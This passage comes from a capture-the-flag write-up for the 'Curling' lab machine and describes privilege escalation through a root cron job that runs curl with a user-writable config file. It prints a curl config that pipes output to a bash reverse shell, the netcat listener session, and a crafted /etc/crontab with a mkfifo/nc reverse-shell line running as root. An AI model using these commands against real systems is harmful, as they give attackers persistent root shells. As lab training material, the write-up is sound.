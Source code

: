 It looks like root is using the `input` file as the config `-K` for `curl` and outputting the result to `report`. 
Since Floris can write to `input` we can modify it to achieve privilege escalation.

Modifying the input file to connect to our listener only gave us a shell as www-data. This is because 127.0.0.1 points to a local web service running as `www-data`.
```sh
floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"
output = "|/bin/bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"
```
The `|` in the output tells curl to execute the following as a command.

```sh
❯ nc -lvnp 4444
Command executed at: 2025-03-23 14:30:18
listening on [any] 4444 ...
connect to [10.10.14.89] from (UNKNOWN) [10.129.201.151] 38890
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 21:31:01 up  1:40,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
floris   pts/1    10.10.14.89      21:12   36.00s  0.10s  0.10s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1662): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Instead, we can modify the config to write to a root-owned file, and escalate that way.

Since this cron is running every minute, we can replace it with one that connects back to us every minute.
We add this line at the bottom:
```sh
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.89 4444 >/tmp/f
```
Now we can modify the input file to download our crontab and output it to /etc/crontab
